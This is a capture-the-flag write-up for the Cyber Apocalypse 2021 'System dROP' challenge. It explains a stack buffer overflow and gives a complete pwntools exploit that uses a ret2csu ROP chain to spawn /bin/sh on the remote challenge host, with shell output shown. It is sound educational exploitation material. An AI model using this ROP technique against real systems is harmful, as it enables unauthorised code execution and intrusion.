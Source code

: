 # Cyber Apocalypse 2021

## System dROP

> In the dark night, we managed to sneak in the plant that manages all the resources. Ready to deploy our root-kit and stop this endless draining of our planet, we accidentally triggered the alarm! Acid started raining from the ceiling, destroying almost everything but us and small terminal-like console. We can see no output, but it still seems to work, somehow..
> 
> This challenge will raise 33 euros for a good cause.
>
> [`pwn_system_drop.zip`](`pwn_system_drop.zip`)

Tags: _pwn_ _x86-64_ _bof_ _ret2csu_


## Summary

The title suggests, use [SROP](https://en.wikipedia.org/wiki/Sigreturn-oriented_programming).  The flag `CHTB{n0_0utput_n0_pr0bl3m_w1th_sr0p}` also suggests its usage as well, so let's not use it and use a [ret2csu](https://i.blackhat.com/briefings/asia/2018/asia-18-Marco-return-to-csu-a-new-method-to-bypass-the-64-bit-Linux-ASLR-wp.pdf) chain instead.

ret2csu is a _super_ gadget that can call any function _by reference_ and pass up to three parameters.  Very useful for `read` and `execve`.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No canary and no PIE, easy BOF, easy ROP.


### Decompile with Ghidra

```c
undefined8 main(void)
{
  undefined local_28 [32];
  
  alarm(0xf);
  read(0,local_28,0x100);
  return 1;
}
```

That's it, BOF with `read`.  216 (`0x100 - 0x28`) bytes for our payload.

```
long _syscall(long __sysno,...)
{
  long in_RAX;
  
  syscall();
  return in_RAX;
}
```

A free _syscall_ function is also included, not a _win_ function, but we'll take it.

> How to solve this without the free `syscall`: [smol](https://github.com/datajerk/ctf-write-ups/tree/master/nahamconctf2021/smol)


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./system_drop')

payload  = b''
payload += 0x28 * b'A'

# CSU
'''
  4005b0:   4c 89 fa                mov    rdx,r15
  4005b3:   4c 89 f6                mov    rsi,r14
  4005b6:   44 89 ef                mov    edi,r13d
  4005b9:   41 ff 14 dc             call   QWORD PTR [r12+rbx*8]
  4005bd:   48 83 c3 01             add    rbx,0x1
  4005c1:   48 39 dd                cmp    rbp,rbx
  4005c4:   75 ea                   jne    4005b0 <__libc_csu_init+0x40>
  4005c6:   48 83 c4 08             add    rsp,0x8
  4005ca:   5b                      pop    rbx
  4005cb:   5d                      pop    rbp
  4005cc:   41 5c                   pop    r12
  4005ce:   41 5d                   pop    r13
  4005d0:   41 5e                   pop    r14
  4005d2:   41 5f                   pop    r15
  4005d4:   c3                      ret
'''

pop_rbx_rbp_r12_r13_r14_r15 = 0x4005ca
set_rdx_rsi_rdi_call_r12 = 0x4005b0

# read bytes to set rax as 0x3b and setup /bin/sh and pointer to syscall
payload += p64(pop_rbx_rbp_r12_r13_r14_r15)
payload += p64(0) # rbx
payload += p64(1) # rbp to get pass check
payload += p64(binary.got.read) # r12 pointer to function
payload += p64(0) # r13 -> rdi
payload += p64(binary.bss()) # r14 -> rsi
payload += p64(constants.SYS_execve) # r15 -> rdx
payload += p64(set_rdx_rsi_rdi_call_r12)

# call syscall
payload += p64(0) # add rsp,0x8
payload += p64(0) # rbx
payload += p64(1) # rbp to get pass check
payload += p64(binary.bss() + 8) # r12 pointer to function
payload += p64(binary.bss()) # r13 -> rdi
payload += p64(0) # r14 -> rsi
payload += p64(0) # r15 -> rdx
payload += p64(set_rdx_rsi_rdi_call_r12)

if args.REMOTE:
    p = remote('46.101.23.157',31056)
else:
    p = process(binary.path)

p.send(payload + b'A' * (0x100 - len(payload)))
fodder = b'/bin/sh\0' + p64(binary.sym._syscall)
p.send(fodder + (constants.SYS_execve - len(fodder)) * b'A')
p.interactive()
```

From the top down, first we send `0x28` bytes of garbage to get to the return address on the stack (see Ghidra stack diagram).

The first ret2csu calls `read` (by reference, i.e. `binary.got.read`) and passes parameters `0` (stdin), `binary.bss()` as the buffer, and `constants.SYS_execve` (`0x3b`) as the length.

_Once the payload starts_ `read` gladly accepts our input `b'/bin/sh\0' + p64(binary.sym._syscall)` plus padding to `constants.SYS_execve` (`0x3b`).  This will leave `0x3b` in `RAX`, which is what we need for the `execve` syscall, and the BSS will have `/bin/sh\0` followed by the address of `_syscall`.

The second ret2csu calls `_syscall` also by reference (`binary.bss() + 8` (pointer to `_syscall`)) and passes parameters `binary.bss()` (`/bin/sh\0`), `0`, and `0` for `execve`.

With `0x3b` in RAX, and the BSS setup, `_syscall` pops a shell.

> Don't linger around, `cat flag.txt` and get out before `alarm(0xf)` kills you.

Output:

```
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/cyberapocalypsectf2021/system_drop/system_drop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 46.101.23.157 on port 31056: Done
[*] Switching to interactive mode
$ cat flag.txt
CHTB{n0_0utput_n0_pr0bl3m_w1th_sr0p}
```
